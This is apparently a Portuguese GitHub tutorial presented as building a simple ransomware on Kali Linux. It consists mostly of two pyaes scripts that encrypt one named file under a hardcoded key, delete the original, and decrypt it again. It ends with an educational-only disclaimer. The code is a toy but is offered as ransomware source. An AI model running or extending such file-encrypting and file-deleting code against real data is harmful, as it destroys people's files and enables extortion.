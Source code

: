 # Tutorial: Criando um Ransomware no Kali Linux usando o PyEncrypter
Neste tutorial, vamos criar um simples ransomware utilizando o PyEncrypter no Kali Linux. Se você não possui o Kali Linux e está usando o Windows, pode baixar uma máquina virtual e instalar o Kali Linux nela.

## Passo 1: Preparação do Ambiente

Abra o Kali Linux e abra o terminal.
Entre no modo root digitando o seguinte comando e inserindo sua senha quando solicitado:

sudo su

## Passo 2: Criando o Decrypter
No modo root, digite o comando para abrir um novo arquivo chamado decrypter.py usando o editor de texto Nano:

nano decrypter.py

## No editor Nano, insira o seguinte código:

import os  
import pyaes

## Abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"  
file = open(file_name, "rb")  
file_data = file.read()  
file.close()

## Chave para descriptografia
key = b"testeransomwares"  
aes = pyaes.AESModeOfOperationCTR(key)  
decrypt_data = aes.decrypt(file_data)  

## Remover o arquivo criptografado
os.remove(file_name)  

## Criar o arquivo descriptografado
new_file = "teste.txt"  
new_file = open(f'{new_file}', "wb")  
new_file.write(decrypt_data)  
new_file.close()  

Salve o arquivo pressionando Ctrl + O, confirme o nome do arquivo e pressione Enter. Em seguida, pressione Ctrl + X para sair do editor Nano.

## Passo 3: Criando o Encrypter
No terminal, digite o comando para abrir um novo arquivo chamado encrypter.py usando o editor Nano:

nano encrypter.py

## No editor Nano, insira o seguinte código:

import os  
import pyaes

## Abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## Remover o arquivo original
os.remove(file_name)

## Chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## Criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## Salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}', 'wb')
new_file.write(crypto_data)
new_file.close()

Salve o arquivo pressionando Ctrl + O, confirme o nome do arquivo e pressione Enter. Em seguida, pressione Ctrl + X para sair do editor Nano.
Conclusão


# Ao seguir este tutorial, você criou um ransomware simples que criptografa um arquivo específico com uma chave fixa. Lembre-se de que a criação e o uso de ransomware são ilegais e antiéticos. Este tutorial é apenas para fins educacionais e não deve ser usado para fins maliciosos.
